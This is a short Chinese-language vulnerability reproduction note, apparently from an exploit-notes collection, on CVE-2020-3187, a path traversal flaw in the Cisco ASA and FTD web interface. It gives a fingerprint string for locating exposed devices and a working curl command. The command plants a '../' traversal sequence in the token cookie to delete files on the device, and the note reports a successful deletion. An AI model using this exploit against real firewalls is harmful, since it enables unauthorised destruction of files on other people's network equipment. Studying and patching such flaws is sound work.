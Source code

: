 # Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

- Cisco ASA设备：



![](images/202202162118289.png)



- Cisco FTD设备：



![](images/202202162119368.png)

## 网络测绘

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](images/202202162119941.png)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](images/202202162119367.png)



使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![](images/202202162119779.png)

成功删除图标


